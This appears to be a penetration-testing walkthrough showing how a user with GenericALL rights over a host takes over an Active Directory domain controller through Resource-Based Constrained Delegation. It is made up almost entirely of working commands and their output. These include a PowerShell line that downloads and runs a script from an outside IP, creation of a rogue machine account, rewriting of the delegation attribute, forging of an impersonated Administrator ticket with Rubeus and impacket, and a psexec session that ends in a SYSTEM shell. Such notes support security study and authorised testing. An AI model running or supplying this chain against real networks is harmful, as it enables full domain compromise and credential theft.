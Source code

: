 ## GenericALL over Host

The specific situation this would apply is when a compromised user has GenericALL rights over a host, ideally a high-value target like a DC. 

![](/images/genericall1.png)

First, Powermad needs to be loaded into memory on the target. Then a new machine account needs to be added.

```sh
iex(new-object net.webclient).downloadstring('http://10.10.14.36/Powermad.ps1')
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
````


Using PowerView_dev, run the following to obtain the objectsid for the new machine account.

```sh
get-netcomputer fake01
```


Use the following commands to obtain a new raw security descriptor for the new machine account

```sh
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-5101)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
````

The next command will set the msds-allowedtoactonbehalfofotheridentity attribute using the created security descriptor

```sh
get-netcomputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

Rubeus can be used her to create impersonate a user, create a TGS and inject that ticket. I had issues gaining access after this.

```sh
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
.\Rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

Method that worked was using impacket. 


Use GetST.py to save a TGS using the created machine account
```sh
getST.py -spn CIFS/dc.domain.local -impersonate Administrator domain/FAKE01$:123456 -dc-ip 10.10.1.1
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
````

Export the ticket into KRB5CCNAME
```sh
export KRB5CCNAME=Administrator.ccache
```

At this stage, impacket has a function to transfer the TGS to any service, so test multiple impacket tools for access. Secretsdump was denied, but psexec.py granted nt authority\system access

```sh
psexec.py -k -no-pass dc.domain.local
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.domain.local.....
[*] Found writable share ADMIN$
[*] Uploading file RUyrpEMO.exe
[*] Opening SVCManager on dc.domain.local.....
[*] Creating service SZxz on dc.domain.local.....
[*] Starting service SZxz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

This is referred to as Resource-Based Constrained Delegation. Further information on this method: http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html


